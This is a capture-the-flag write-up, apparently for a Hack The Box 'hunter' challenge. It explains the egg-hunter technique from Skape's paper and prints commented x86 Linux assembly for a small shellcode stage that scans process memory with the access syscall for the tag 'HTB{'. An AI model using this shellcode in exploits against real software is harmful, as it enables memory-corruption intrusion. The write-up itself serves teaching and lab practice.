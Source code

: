 Some explanations are in order. The EggHunter technique is used when not enough space is available for inserting a shellcode. In ***stack-based buffer overflows***, memory is relatively static. So, the objective is to place an "egg" in memory, and place an initial stage shellcode that will search for the final stage (and that on the whole memory range, which includes stack, heap and everything). that search is done using a unique tag or egg that was prefixed with the larger payload (aka the final stage).

From Skape's paper, the idea is to search for a process'VAS (Virtual Address Space).

> When having a virtual memory, each process has it's own virtual address space, mapped to the physical memory by the operating system.

One thing that mostly important is to have a state that makes it possible to put a large payload somewhere else in the address space of the process. Weirdly enough, we search for a tag placed by the large payload that had been loaded into the VAS. In our hunter challenge, the tag is the begining of our flag or more precisely the keyword `HTB{`. One specificity of the tag is that it must be unique. Otherwise, it could be mixed with another memory space that is not the one we are looking for.

> According to skape's paper, it is precised that the egg size should be 8 bytes. It is explained that the egg hunting implementation algorithms tend to use a 4-bytes key. So, we might run into the egg hunter instead of the buffer we are looking for.

### Implementing the EggHunter
From what we have saw on the reversing section, we have an available 60 character space. 
according the skape's paper, there is limited ways to search for a process' VAS on linux (the egg hunter exploitation technique works also on windows).

The first thing to note, is ***the use of a system call to serve as an error handler*** (it is precised that there is another approach that consists on registering a segmentation fault handler to prevent the program from crashing, but *using syscalls is easier and less intrusive*).

### Assembly code

```asm
global _start


section .text



; the first thing that must be done is to 
; move the "egg" in ESI
; ESI is the offset register 
_start:
    mov edi, dword  0x7b425448  ; egg to search for representing HTB{ (little endian)
    mov edx, 0x5FFFFFFF         ; setting start search address

; next page alignment 
next_page: 
    or dx, 0xfff                ; dx=4095; does a page increment

next_addr:
    inc edx                     ; edx=4096
    pusha                       ; push of all the current general purposes registers onto the stack to be preserved across the system call
    lea ebx, [edx+0x4]          ; ebx contains the first argument of the system call. ebx will point to the pathname pointer, the + 4 allows 8 bytes of contiguous memory to be validated in a single swoop
    mov al, 0x21                ; Access syscall number 
    int 0x80                    ; call to access the syscall
    cmp al, 0xf2                ; checking if it returns EFAULT
    popa                        ; restore the registers previously pushed
    jz next_page                ; if access returns EFAULT skip to the next page
    cmp [edx], edi              ; initializing edx if it contains our egg HTB{
    jnz next_addr            ; if our egg isn't in it, we skip to the next address
```
